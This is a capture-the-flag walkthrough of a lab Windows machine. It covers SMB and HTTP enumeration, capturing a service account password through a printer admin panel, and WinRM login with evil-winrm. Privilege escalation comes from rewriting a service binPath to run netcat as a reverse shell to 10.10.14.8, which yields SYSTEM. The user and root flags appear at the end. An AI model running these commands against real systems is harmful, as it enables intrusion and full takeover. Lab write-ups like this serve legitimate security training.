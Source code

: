 
**Key Concepts:** Windows Remote Management (WinRM), SMB (Server Message Block), Enumeration, Printer Admin Panel, Privilege Escalation, Server Operators Group.

**Key Commands:** winrm, crackmapexec, smbmap, evil-winrm, whoami, net user, sc.exe.

---

**Step 1: Identifying the Target**
- Port 5985 (WinRM) is open for remote Windows administration.
- Tools like evil-winrm can be used with valid credentials.
- Several open ports, including 445 (SMB).

**Step 2: Enumerating the Machine**
```bash
crackmapexec smb 10.10.11.108
```

**Step 3: Listing Shared Resources**
```bash
smbmap -H 10.10.11.108 -u 'null'
```

**Step 4: Focusing on HTTP Enumeration**
```bash
cat lognmap | grep http
```

**Step 5: Identifying Running Services**
```bash
whatweb http://10.10.11.108
```

- It reveals an IIS and a Printer Admin Panel.

**Step 6: Exploring the Printer Admin Panel**
- Upon checking the website, it's a Printer Admin Panel application.
- In the settings section, a connection to port 389 with a username and password is discovered.
- Set up a listener on your machine and make the service on the target connect to your machine to capture the user's password.

**Step 7: Using Credentials with crackmapexec**
```bash
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

- If crackmapexec responds with a "+", the credentials are valid.

**Step 8: Accessing Remote Windows Management (WinRM)**
- Since port 5985 (WinRM) is active and valid credentials are available, attempt to connect to the WinRM service using crackmapexec.
- If the response is "Pwn3d!", you have access to the machine.

```bash
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p 'password'
```

**Step 9: Gaining Access with evil-winrm**
- Now that access is confirmed, use the evil-winrm tool to connect to the victim machine.

```bash
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p 'password'
```

**Step 10: Privilege Escalation**
- To escalate privileges, check the user's privileges and group membership.

```bash
whoami /priv
net user svc-printer
```

- The user is in the "server operators" group.

**Explanation of "server operators" group:** This group allows users to run and stop services, which can be exploited for privilege escalation.

**Step 11: Creating a Custom Service**
- Upload the netcat executable to the victim machine.

```bash
upload /home/klinux/Documents/htb/windows/Return/nc64.exe
```

- Create a custom service.

```bash
sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc64.exe -e cmd 10.10.14.8 1234"
```

- If creating the service fails, try manipulating the binPath of an existing service.

```bash
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc64.exe -e cmd 10.10.14.8 1234"
```

**Step 12: Gaining Access as SYSTEM**
- Start a listener on your machine on port 1234.
- Stop and then start the manipulated service (VMTools) as the user is in the "server operators" group.

```bash
sc.exe stop VMTools
sc.exe start VMTools
```

- Gain access as 'nt authority\system'.

**Step 13: Obtaining Root Flag**
- With SYSTEM privileges, obtain the root flag and conclude the machine.

This tutorial provides a detailed step-by-step guide for remote Windows administration and privilege escalation, making it easier to follow and reference key concepts and commands.

User flag 092657ecfad11788d81fbbbd197f897c
Root flag 98eb8eba4af8f70f7ce8837ed8c3c378